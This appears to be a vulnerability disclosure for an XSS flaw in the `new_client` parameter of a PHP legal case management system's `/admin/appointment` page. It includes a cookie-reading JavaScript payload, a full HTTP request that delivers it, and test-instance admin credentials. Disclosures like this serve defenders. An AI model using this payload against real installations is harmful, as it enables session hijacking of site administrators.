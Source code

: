 ## Legal Case Management System

## XSS on `/admin/appointment`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/appointment
```

The parameter `new_client` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/appointment HTTP/1.1
Host: 192.168.150.131
Content-Length: 950
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOBEvcQAe5gK27oBc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/appointment/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6ImpPZmJvMjRjS2NiXC83c1pxRWlNXC9JQT09IiwidmFsdWUiOiJuK2hpWlwvWTFjb1NGZ2R4SDExUDZKb3VRSTdHZUVBNjhZS05TZkpcL0Y0dldGc3F3ZnpqQXBtN0M3aExGM0JObjMiLCJtYWMiOiJjNDA2M2I4MGI5N2Q3ODMwMWFjYWRiNmE1M2U4ZTdlNjJkNjhiOTY2MzQ0MGQ2Mjk5ZTVhOGQ5YTA4OGYzODg5In0%3D; test_session=eyJpdiI6IkJ3dXJndU9PTG13eHd1cktXY200bVE9PSIsInZhbHVlIjoibnB3SUhcL2dTTThLeFBhQmMzdzlHTlpGQW81QkRUS1BzSERBZVwvS1I5NkFpRTJLZEdOek5mS3BUMFp0OWZKZ25nIiwibWFjIjoiNTA4YWQ0NDEwZjAyY2YzMTAzYmU1OTY4ZGMzYTRlM2M3ZTBjMTljNjQyNDczODQ5YjNhYzM3ZTYxMGZiMWQ0ZiJ9
Connection: close

------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="_token"

dIDWseikEM1UlakNR9wrVpwU77vwjBNR1ktwDT1O
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="type"

new
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="exists_client"


------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="new_client"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="mobile"

1231456789
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="date"

08-05-2024
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="time"

10:17 PM
------WebKitFormBoundaryOBEvcQAe5gK27oBc
Content-Disposition: form-data; name="note"

1
------WebKitFormBoundaryOBEvcQAe5gK27oBc--

```

### Screenshot

![image-20240508221759496](./screenshot/image-20240508221759496.png)
